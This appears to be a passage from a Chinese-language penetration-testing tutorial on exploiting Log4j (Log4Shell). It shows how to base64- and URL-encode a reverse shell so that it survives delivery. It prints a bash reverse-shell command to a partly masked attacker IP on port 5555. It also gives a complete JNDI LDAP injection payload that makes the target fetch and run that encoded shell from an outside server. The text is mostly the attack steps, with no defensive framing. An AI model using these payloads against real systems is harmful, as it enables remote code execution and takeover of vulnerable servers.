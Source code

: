 #### 4.2 base64编码反弹shell

由于环境等问题，有时直接反弹shell可能会失败，所以需要进行base64编码+url编码的方式进行反弹shell。

首先对反弹shell的payload进行[base64](https://base64.us/)编码。

```
bash -i >& /dev/tcp/47.xxx.xxx.xxx/5555 0>&1
```

![image-20211214125647815]($imgs/image-20211214125647815.png)

再对base64编码后的payload进行[url](http://tool.chinaz.com/tools/urlencode.aspx)编码。

![image-20211214125533242]($imgs/image-20211214125533242.png)

然后对整个payload进行[url](http://tool.chinaz.com/tools/urlencode.aspx)编码。

```
c=${jndi:ldap://47.xxx.xxx.xxx:9999/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC80Ny45Ny41LjxxxxxxxxxU1IDA%2BJjE%3D}
```
